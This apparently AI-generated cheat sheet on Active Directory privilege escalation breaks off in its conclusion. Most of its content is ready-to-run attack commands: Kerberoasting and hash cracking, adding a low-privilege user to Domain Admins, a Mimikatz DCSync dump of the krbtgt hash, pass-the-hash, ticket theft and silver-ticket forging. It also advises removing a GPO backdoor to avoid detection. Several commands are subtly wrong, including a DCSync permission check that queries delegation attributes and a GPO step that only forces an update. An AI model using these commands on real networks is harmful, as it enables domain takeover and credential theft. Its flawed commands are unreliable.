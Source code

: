 Yes, Active Directory (AD) privilege escalation attacks are an important aspect of red team and penetration testing engagements. These attacks often target misconfigurations in AD permissions or trust relationships, allowing an attacker to gain elevated privileges, such as Domain Admin (DA) or Enterprise Admin (EA), or to escalate their privileges by abusing specific properties and permissions.

Here's a cheat sheet for **Active Directory Privilege Escalation Attacks**:

---

### **1. BloodHound for AD Enumeration & Path Finding**

#### **Use BloodHound to Find Paths to Domain Admin**
BloodHound is a tool that queries Active Directory for permissions, group memberships, and relationships between users, groups, and computers. It can help find privilege escalation paths.

1. **Collect Data with SharpHound**:
   ```powershell
   Invoke-BloodHound -CollectionMethod All -Domain CONTOSO -ZipFileName loot.zip
   ```

2. **Analyze in BloodHound GUI**:
   - Load the `.zip` file into the BloodHound GUI.
   - Search for "Shortest Path to Domain Admins" to identify potential privilege escalation paths.

---

### **2. Kerberos Attacks**

#### **Kerberoasting (Target Service Accounts)**
Kerberoasting targets accounts that have Service Principal Names (SPNs) configured. If the account's password is weak, an attacker can request a ticket and crack it offline to gain the password.

```powershell
# PowerView to Identify SPNs
Get-DomainUser -SPN | Select-Object Name, ServicePrincipalName

# Request SPN Ticket and Save to File
Rubeus.exe kerberoast /outfile:hashes.txt

# Crack the Ticket (with Hashcat or John)
hashcat -m 13100 hashes.txt /path/to/wordlist
```

---

### **3. Abuse of ACLs (Access Control Lists)**

#### **Abuse Write Permissions on Users/Groups**
If a user has write permissions over a sensitive group (e.g., "Domain Admins") or user object, they can modify the group membership to add themselves or another user to escalate privileges.

1. **Enumerate ACLs on Sensitive AD Objects**:
   ```powershell
   Get-ADACL -DistinguishedName "CN=Domain Admins,CN=Users,DC=domain,DC=com"
   ```

2. **Modify Group Membership if You Have WriteDACL**:
   ```powershell
   Add-ADGroupMember -Identity "Domain Admins" -Members "lowprivuser"
   ```

3. **Abuse `GenericAll` to Add Users to Admin Groups**:
   If you have `GenericAll` rights on a group like "Domain Admins":
   ```powershell
   Add-ADGroupMember -Identity "Domain Admins" -Members "lowprivuser"
   ```

---

### **4. DCSync Attack**

#### **Steal Password Hashes Using DCSync**
The DCSync attack allows an attacker to impersonate a domain controller and request password hashes from AD, if they have `Replicating Directory Changes` permissions.

1. **Check for DCSync Permissions**:
   ```powershell
   Get-ADUser -Filter * -Properties msds-allowedtodelegateto | Select-Object Name, msds-allowedtodelegateto
   ```

2. **Perform DCSync Using Mimikatz**:
   If the user has the right privileges, perform a DCSync attack:
   ```powershell
   Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.com /user:krbtgt"'
   ```

   This dumps the NTLM hash of the `krbtgt` account, which can then be used to forge a **Golden Ticket**.

---

### **5. Pass-the-Hash (PtH)**

#### **Leverage NTLM Hash for Lateral Movement**
If you have an NTLM hash, you can impersonate the account without knowing the cleartext password.

1. **Use Mimikatz for Pass-the-Hash**:
   ```powershell
   Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe"'
   ```

2. **Perform Lateral Movement with PtH**:
   Once authenticated, you can perform lateral movement to other machines using the impersonated credentials:
   ```powershell
   Enter-PSSession -ComputerName TARGET -Credential $creds
   ```

---

### **6. Pass-the-Ticket (PtT)**

#### **Leverage Kerberos Tickets for Privilege Escalation**
With a valid Kerberos Ticket Granting Ticket (TGT) or Ticket Granting Service (TGS), you can impersonate accounts.

1. **Extract Kerberos Tickets Using Mimikatz**:
   ```powershell
   Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
   ```

2. **Pass-the-Ticket (Import Stolen Ticket)**:
   ```powershell
   Invoke-Mimikatz -Command '"kerberos::ptt /ticket:ticket.kirbi"'
   ```

3. **Use Stolen Tickets to Gain Access**:
   With a stolen ticket, you can access resources using the impersonated account.
   ```powershell
   Enter-PSSession -ComputerName TARGET
   ```

---

### **7. GPO Abuse for Privilege Escalation**

#### **Modify GPO for Privilege Escalation**
If you have write access to Group Policy Objects (GPOs), you can abuse this to escalate privileges on multiple machines in the domain.

1. **Identify GPO Permissions**:
   ```powershell
   Get-ACL "LDAP://CN={GPO GUID},CN=Policies,CN=System,DC=domain,DC=com" | Format-List
   ```

2. **Modify GPO to Add a Local Admin**:
   Abuse the GPO by adding a script that adds a user to the local administrators group:
   ```powershell
   Invoke-GPUpdate -Force
   ```

3. **Revert the Changes After Getting Access**:
   Once you have escalated privileges, remove the backdoor from the GPO to avoid detection.

---

### **8. Unconstrained Delegation**

#### **Abuse Unconstrained Delegation for Privilege Escalation**
Unconstrained delegation allows a service to impersonate users who authenticate to it, making it a prime target for attackers.

1. **Find Machines with Unconstrained Delegation**:
   ```powershell
   Get-ADComputer -Filter {TrustedForDelegation -eq $True} -Properties TrustedForDelegation
   ```

2. **Abuse Unconstrained Delegation**:
   If a high-privileged account (e.g., Domain Admin) authenticates to the vulnerable service, you can steal the TGT from memory using Mimikatz:
   ```powershell
   Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
   ```

3. **Use the Stolen TGT to Escalate Privileges**:
   Use the TGT to authenticate as the high-privileged account and escalate privileges.

---

### **9. Exploiting Group Memberships**

#### **Abuse of "Owner Rights" in ACLs**
If a low-privileged user is the owner of a group or user object, they can escalate privileges by modifying the object’s properties.

1. **Check for Ownership of Sensitive Objects**:
   ```powershell
   Get-ACL -Path "LDAP://CN=Domain Admins,CN=Users,DC=domain,DC=com" | Select Owner
   ```

2. **Change Group Membership as the Owner**:
   If you are the owner of the object, add yourself to the group:
   ```powershell
   Add-ADGroupMember -Identity "Domain Admins" -Members "lowprivuser"
   ```

---

### **10. Abusing LAPS (Local Administrator Password Solution)**

#### **Retrieve LAPS Passwords**
LAPS stores local admin passwords in AD and is used for managing privileged access to local accounts on domain-joined machines.

1. **Find LAPS-Managed Machines**:
   ```powershell
   Get-ADComputer -Filter {ms-MCS-AdmPwd -ne "$null"} -Property ms-MCS-AdmPwd
   ```

2. **Retrieve the LAPS Password**:
   If you have sufficient privileges, retrieve the local admin password:
   ```powershell
   Get-ADComputer -Identity "targetPC" -Property "ms-MCS-AdmPwd"
   ```

---

### **11. Silver Ticket Attack**

#### **Abuse Service Tickets for Privilege Escalation**
A Silver Ticket attack targets specific services in AD and is used to forge a service ticket (TGS) without needing a TGT.

1. **Identify Vulnerable Services**:
   Find SPNs in the domain:
   ```powershell
   Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
   ```

2. **Create a Silver Ticket Using Mimikatz**:
   ```powershell
   Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.com /sid:S-1-5-21-... /target:service /rc4:HASH /user:lowprivuser /service:cifs /id:500"'
   ```

3. **Use the Silver Ticket to Access the Target Service**:
   Use the ticket to authenticate to the target service without needing to authenticate to the Domain Controller.

---

### Conclusion

This cheat sheet provides a quick reference for common **